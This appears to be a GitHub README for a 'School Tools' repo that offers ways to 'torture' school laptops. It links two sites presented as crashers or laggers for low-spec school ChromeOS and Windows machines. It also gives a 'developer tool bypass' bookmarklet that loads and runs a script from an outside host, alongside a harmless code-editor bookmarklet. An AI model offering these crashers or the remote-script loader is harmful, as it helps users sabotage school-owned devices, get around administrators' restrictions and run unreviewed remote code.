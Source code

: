 # School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/) ```http://bongo-hates-python.cf/```
+ [Crasher/lagger](https://crash.drugs4children.org/) ```https://crash.drugs4children.org/```

> Developer Tool Bypasses
```JS 
javascript:javascript:(function()%7Bfunction callback()%7Bconsole.log("FUNNY")%7Dvar s%3Ddocument.createElement("script")%3Bs.src%3D"https%3A%2F%2Fanimetitties.net%2FGetsource.js"%3Bif(s.addEventListener)%7Bs.addEventListener("load"%2Ccallback%2Cfalse)%7Delse if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```
> Mini Code Editor V
```JS
javascript:(function()%7Bconst%20wnd%20%3D%20window.open('School%20Toolz%20CodeEditor'%2C%20'_blank'%2C%20'status%3Dno%2Ctoolbar%3Dno%2Clocation%3Dno%2Cdirectories%3Dno%2Cresizable%3Dno%2Cscrollbars%3Dyes%2Cwidth%3D600%2Cheight%3D400')%3Bwnd.document.write(%60%3C!DOCTYPE%20html%3E%3Chtml%20lang%3D%22en%22%3E%3Cselect%20name%3D%22language%22%20id%3D%22language%22%3E%3Coption%20value%3D%22javascript%22%3EJavaScript%3C%2Foption%3E%3Coption%20value%3D%22python%22%3EPython%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22html%22%3Ehtml%3C%2Foption%3E%3Coption%20value%3D%22css%22%3Ecss%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22C%23%22%3EC%23%3C%2Foption%3E%3Coption%20value%3D%22php%22%3Ephp%3C%2Foption%3E%3Coption%20value%3D%22sh%22%3ESH%3C%2Foption%3E%3Coption%20value%3D%22vbscript%22%3EVbscript%3C%2Foption%3E%3C%2Fselect%3E%3Cbody%20style%3D%22margin%3A0%20%22%3E%3Cdiv%20id%3D%22editor%22%3Econsole.log(%22Editor%20Bookmarklet%20By%20School%20Toolz%20Team%22)%3C%2Fdiv%3E%3Cscript%20src%3D%22https%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Face%2F1.1.01%2Face.js%22%20type%3D%22text%2Fjavascript%22%20charset%3D%22utf-8%22%3E%3C%2Fscript%3E%3Cscript%3Evar%20codinglang%20%3D%20%22javascript%22%3Bvar%20editor%20%3D%20ace.edit(%22editor%22)%3Bconst%20lang%20%3D%20document.getElementById('language')%3B%20lang.addEventListener('change'%2C%20function()%20%7B%20codinglang%20%3D%20lang.value%2C%20editor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3B%20%7D)%3Beditor.setTheme(%22ace%2Ftheme%2Ftomorrow_night_eighties%22)%3Beditor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3Bdocument.getElementById(%22editor%22).style.height%20%3D%20%22400px%22%3B%3C%2Fscript%3E%3C%2Fbody%3E%3C%2Fhtml%3E%60)%7D)()
```
+ [Soon](https://github.com/StiizzyCat/SchoolTools)
